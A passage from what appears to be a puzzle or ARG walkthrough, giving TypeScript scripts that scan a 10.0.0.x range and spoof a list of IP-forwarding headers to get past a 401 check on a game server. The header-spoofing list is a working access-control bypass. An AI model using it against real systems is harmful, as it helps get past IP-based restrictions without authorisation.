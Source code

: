```ts
                "X-Frame-Options": "Allow"
            }
        })
            .then((response) => {
                if (response.status != 401) {
                    console.log("WE HAVE AN IP!!")
                    console.log(`IP: ${ip}`);
                }
            });
    }
}
```

This script in particular will reveal rather quickly that the entire `10.0.0.x` block is open for us to use.\
This script however, does *not* reveal which header we need to use.

A separate script can be used to figure out the header:
```ts
console.clear();

const url = "http://arg.memetrolls.net:2507/hacker/docs";
const headers = ["Base-Url","Client-IP","Forwarded-For","Forwarded-For-Ip","Http-Url","nullOrigin","Origin","Proxy-Host","Proxy-Url","Real-Ip","Redirect","Referer","Referrer","Refferer","Request-Uri","Uri","Url","X-Client-IP","X-Custom-IP-Authorization","X-Forwarded","X-Forwarded-By","X-Forwarded-For","X-Forwarded-For-Original","X-Forwarded-Host","X-Forwarded-Port","X-Forwarded-Scheme","X-Forwarded-Server","X-Forwarder-For","X-Forward-For","X-Host","X-Http-Destinationurl","X-Http-Host-Override","X-Original-Remote-Addr","X-Original-Url","X-Originating-IP","X-Proxy-Url","X-Real-Ip","X-Remote-Addr","X-Remote-IP","X-Rewrite-Url"]

for (const header of headers) {
    fetch(url, {
        headers: {
            [header]: "10.0.0.1",
            "Connection": "keep-alive",
            "Host": "arg.memetrolls.net:2507",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
            "Accept-Encoding": "gzip, deflate",
            "Accept-Language": "en-US,en;q=0.9",
        }
    })
        .then((response) => {
            if (response.status != 401) {
                console.log("WE HAVE A HEADER!!")
                console.log(`Header: ${header}`);
            }
        });
}
```


### 404 Fiddled
